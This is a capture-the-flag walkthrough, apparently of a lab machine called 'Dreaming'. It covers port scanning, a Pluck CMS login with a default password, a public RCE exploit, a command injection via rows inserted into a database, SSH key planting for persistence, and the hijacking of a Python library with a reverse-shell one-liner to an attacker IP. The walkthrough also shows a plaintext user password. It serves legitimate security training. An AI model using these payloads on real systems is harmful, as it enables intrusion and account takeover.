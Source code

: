 # Dreaming

### Recover the Kingdom!
Initial scan shows port 22 and 80 open: 

    nmap -p22,80 -sV -sC 10.10.88.80 -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-15 11:22 CEST
    Nmap scan report for 10.10.88.80
    Host is up (0.044s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
    |   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
    |_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Port 80 shows an empy web server, however after running gobuster, I found `/app`, which leads to a webpage that uses `pluck 4.7.13` as CMS. Googling online, I found that this version is vulnerable to authenticated RCE, and found the exploit code [here](https://github.com/0xAbbarhSF/CVE-2020-29607/blob/main/exploit.py).
I clicked on "admin", as showed in the picture below, and it led me to a login page: <br />
![image](https://github.com/user-attachments/assets/7876f7d0-ae68-4674-b691-e05dad7fd843)<br />
I quickly tried basic passwords like "admin" and "password", and I logged in using `password`. So now we can use the exploit that we found (the code is in `exploit.py` of this folder): <br />
![image](https://github.com/user-attachments/assets/699153ef-fab1-44c3-9347-0255335aa95a)<br />
And I now have a (really pretty) web shell: <br />
![image](https://github.com/user-attachments/assets/134acc85-9aba-4613-937b-286c09b4d589)<br />
But I really prefer a classic stabilized shell so i spawned one. After enumerating the machine, i found interesting files inside `/opt`. In particular: <br />
![image](https://github.com/user-attachments/assets/a7fce910-faf0-40a2-af07-edf37218746c)<br />
So I tried to log in as lucien using this password, with `su lucien`, `HeyLucien#@1999!`, and it worked. <br />
Inside lucien's home directory, I have access to his bash history and found something interesting:<br />
![image](https://github.com/user-attachments/assets/b68e5240-7cae-4680-ae8c-e62ad0f29c55)<br />
Also, running `sudo -l` as lucien reveals the following binary: <br />
![image](https://github.com/user-attachments/assets/c1e2c309-64f7-4f43-9f2e-9ae1b2a4bd15)<br />
I run it but it doesn't seem to be any useful:<br />
![image](https://github.com/user-attachments/assets/d17f877e-171d-4a9a-8999-ffa846874303)<br />
I also logged inside the myql database but I wasn't able to find anything useful.<br />
After a while I saw something interesting inside the code of `/opt/getDreams.py`.<br />
![image](https://github.com/user-attachments/assets/22b16128-77b9-4df9-8ced-4a629d55d439)<br />
 Basically it executes the command `echo dreamer + dream`, where `dreamer` and `dream` are the contents of the `library` database, the one on which we have access! So the idea is inject a command as a tuple of the table, so that it executes something like `echo dreamer +; /bin/bash`, something like that. Let's try.  <br />
 Move inside the `library` database, and run the following command `INSERT INTO dreams (dreamer, dream) VALUES ('; whoami #', 'Testing command injection');`. It worked!<br />
 ![image](https://github.com/user-attachments/assets/ed5e3baf-e98e-4d13-b471-e5a8edcf9817)<br />
Now let's insert a command to spawn a shell!<br />
![image](https://github.com/user-attachments/assets/781269c1-feb7-4e66-8973-d556b60706ee)<br />
It kinda worked, but the shell is not very interactive; the command works, but the shell doesn't give the answers back. So one way to make it interactive, is to use ssh:
<br />
On the attacker's machine: 

    ssh-keygen -t rsa -b 4096
On the target machine: 

    mkdir /home/death/.ssh
    echo "PUB_KEY" > home/death/.ssh/authorized_keys

Finally, on the attacker's machine:<br />

    ssh -i Priv_key death@10.10.1.99
And we have our interactive shell: <br />
![image](https://github.com/user-attachments/assets/e0153745-d255-49c2-ae7a-76ee2bf6a6bd)<br />
As death, we can now read his password from the `getDream.py` file:<br />
![image](https://github.com/user-attachments/assets/71a959b6-3513-435c-b01a-86ed8dc95d29)<br />
Now, if we look inside morpheus' home directory, we can see a .py file that we can read:<br />
![image](https://github.com/user-attachments/assets/4e69109e-7921-4d69-ade4-45267b49ca99)<br />
This file imports the shutil library, to which the death user has write access:<br />
![image](https://github.com/user-attachments/assets/f6038e64-7636-411d-b2c9-837bdf15ca66)<br />
We can then overwite this library with a reverse shell, and open a netcat listener, to check if this backup operation is actually a cronjob. Run `echo "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.90.188",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")" > /usr/lib/python3.8/shutil.py` and then on the attacker's machine `nc -lnvp 8888`, wait a minute and get morpheus flag :) 



